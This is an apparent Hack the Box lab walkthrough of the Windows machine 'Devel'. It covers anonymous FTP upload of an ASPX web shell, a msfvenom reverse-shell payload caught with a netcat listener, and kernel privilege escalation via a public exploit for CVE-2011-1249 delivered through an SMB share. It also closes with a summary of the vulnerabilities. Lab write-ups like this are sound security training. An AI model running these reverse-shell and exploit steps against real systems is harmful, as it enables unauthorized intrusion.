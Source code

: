 ```yaml
---
title: Hack the Box — Devel — Walkthrough
description: 
date: '2024-05-29T11:33:22.318Z'
keywords: []
tags: 
   Uncontrolled-file-upload
   Missing-security-patches
---
```

# Walkthrough - Devel

![Devel machine exploitation matrix](/assets/images/1__E89__CXQXg__HC3aRCjl7LDw.png)

Devel is a relatively straightforward machine running the Microsoft Windows OS. As a result of a misconfiguration in the FTP and IIS web server services, a malicious ASPX file containing a reverse shell payload was executed on the web server of target machine to gain a foothold as a low privileged, non-administrative user. As a result of missing security patches, a kernel vulnerability that leads to privilege escalation was exploited to give me root user as **NT Authority\\System.**

I am including not only the process of how I gained root user privileges, but a summary of all the vulnerabilities this machine demonstrated in the last section of this post. Let’s go!

## Step 1 — Enumeration

As a first step, I try to gather as much as information as I can about the target machine such as open ports, running services, OS and version etc. For this I use **Nmap** tool with below syntax. Brief explanation of flags:

* \-sV — Detect services running at IP address and their versions
* \-sC — Run the default set of Nmap scripts to gather more information
* \-T4 — Speed up the performance of the scan

```bash
Nmap \-sV \-sC \-T4
```

![Nmap scan output](/assets/images/1__m3sksBlneos6fysIWbUorw.png)

The information from the Nmap scan is very interesting and suggests some initial attack vector we can use to exploit. In addition to ANONYMOUS login being enabled on the FTP server, the files **iisstart.htm** and **welcome.png** are actually the files hosted at the web server root!

At this point, I usually like to further enumerate with tools like GoBuster using a good word list to search for hidden directories that could contain sensitive data such as **/Admin**. However, as the web root directory appears to be accessible via FTP, I will focus my attack in this direction.

## Step 2 — Gaining foothold as low privileged web application user

As the web root directory can be accessed via the FTP server, I upload a simple ASPX web shell to test both if the FTP grants write privileges, and if so, whether remote command execution (RCE) is possible.

### Testing for RCE on web server

I locate the default web shell for ASPX in Kali Linux and copy it to my local user desktop, and then upload it to the web root via FTP **PUT** command. As Anonymous FTP login is enabled, user ID is just **Anonymous** with **blank password**.

```bash
ftp 10.10.10.5
```

![ASPX webshell uploaded to victim machine](/assets/images/1__JliQL2Ow8NopIyKGywvS6Q.png)

I then access to the web shell via the browser at [http://10.10.10.5/cmdasp.aspx](http://10.10.10.5/cmdasp.aspx). I test RCE by issuing the **Whoami** command. The command is successful, returning the login ID of the currently logged in user, **iis apppool\\web,** confirming we have RCE.

![Successful remote code execution on victim machine](/assets/images/1__v9blxScERuGHExhmIzFcXA.png)

### Obtaining a reverse shell to victim machine as low-level privileged user

The next step after validating RCE is to obtain a reverse shell. There are several ways to obtain a reverse shell, but here I will create a custom payload encoded in the ASPX format using **msfvenom** (component of MetaSploit framework — Read more [**here**](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html).) I will upload this payload to web server via FTP put command as shown above. Explanation of flags and parameters:

* \-p — payload selection (simple reverse shell over TCP chosen)
* LHOST — The local IP of my Kali instance as the attacking machine
* LPORT — The local port for victim to connect (can be any open port)
* \-f — payload encoding (choose ASPX to match web server language)
* \-o — Output file name

```bash
msfvenom -p windows/shell\_reverse\_tcp LHOST 10.10.10.30 LPORT 4444 -f aspx -o reverseshell.aspx
```

Next, I will set up a Net Cat listener on my machine in listen mode to catch the reverse shell once the malicious ASPX page is accessed on the web server. Explanation of flags and input parameters:

* \-l — Put Net Cat into listening mode
* \-v — Enable verbose output (use -vv for more verbosity)
* \-n — Do not resolve DNS
* \-p — Port to listen on (choose 4444 to match payload from msvenom)

```bash
nc -lvnp 4444
```

![NetCat listener set up on my machine to catch reverse shell connection from victim machine](/assets/images/1__DIk9__HtBCf__KjWeqB1XvYA.png)

Upon issuing a cURL command to the victim’s IP address in the Kali console, Net Cat will catch the reverse shell and we gain access to the victim’s machine as the low privileged user, **iis apppool\\web**

```bash
curl <http://10.10.10.5/reverseshell.aspx>
```

![Successful reverse shell connection established on victim machine](/assets/images/1__W3y3yPv__7__NE57UXB__GTwQ.png)

## Step 3 — Privilege escalation to root user as NT Authority\\System

### Enumerating Victim Computer for Vulnerabilities to escalate privileges

The next step after gaining an initial foothold is to escalate our privileges to the ROOT user as **NT Authority\\System**. The first step I do is run the **systeminfo** command which will output detailed information about the victim’s machine such as the OS build version, patches applied etc. The output of systeminfo below shows the OS version to be **6.1.7600 N/A Build 7600** and more importantly, **no hotfix patches have been applied**!

![Systeminfo command output showing missing security patches on victim's machine](/assets/images/1__Nx__Evi4GZDYU73bax42cXw.png)

A simple Google search for “**privesc 6.1.7600 N/A Build 7600**” reveals the victim’s machine is vulnerable to **CVE-2011–1249** caused by the Windows ancillary function driver (Afd driver) running in elevated kernel mode improperly validating input passed to it from non — elevated user mode. CVE-2011–1249 already exists within the OffSec exploit database so the raw exploit code can be accessed using the **searchsploit** command in Kali Linux and copied to working directory with the -m flag.

![CVE-2011-1249 vulnerability details](/assets/images/1__63BdYjOulxxU92__oqL2hXg.png)

### Compiling vulnerability exploit code into an executable program

I run the one-line code to compile the exploit executable in the same directory on my Kali Linux machine where I downloaded the raw exploit. 40564.C is the raw exploit code from searchsploit -m 40564.c command.

![Compiled vulnerability executable](/assets/images/1__hcp__TtfkzlQCHzhd9xweHA.png)

### Executing vulneraiblity exploit on victim machine to escalate access privileges to ROOT user

The final step is to transfer the malicious payload from my Kali Linux machine to the victim’s machine and execute it there, for which I will use the **Impacket smbserver.py** script from the Impacket scripts bundle. I create a directory that will be shared with the victim (share) and copy the exploit executable to this directory. Upon the victim (Devel) successfully authenticating to my malicious SMB share, the exploit executes, giving me root as **NT authority\\system.**

![Successful incoming connection to SMB file share by victim computer](/assets/images/1__Z54iWr4b0zMGwf5jTQmzDw.png)
![Successful CVE-2011-1249 exploitaition leading to ROOT user privileges](/assets/images/1__iGGcd78yopUMBy8yb3KFNw.png)

## Vulnerability summary

The machine demonstrated the following vulnerabilities:

* **Arbitrary file upload -** Vulnerability allows a malicious user to upload dangerous file types directly to a web server. In this example, as a result of the web server not validating the file extensions and content of files uploaded, I was able to upload a malicious ASPX file containing a reverse shell payload allowing me to gain unauthorized access on the web server for initial foothold.

* **Security misconfiguration —** Vulnerability due to insecure settings allows malicious actors to take malicious actions. In this example, there are two misconfigurations that allowed compromise:

  * FTP configured to allow ANONYMOUS authentication with PUT (write) privileges to the same root directory as the web server

  * Execute privileges being enabled on the web server root directory where arbitrary files are uploaded.

* **Missing security patches —** As a result of missing hotfix patches, I was able to use a publicly released vulnerability exploit to escalate my access to root user upon gaining initial foothold on machine

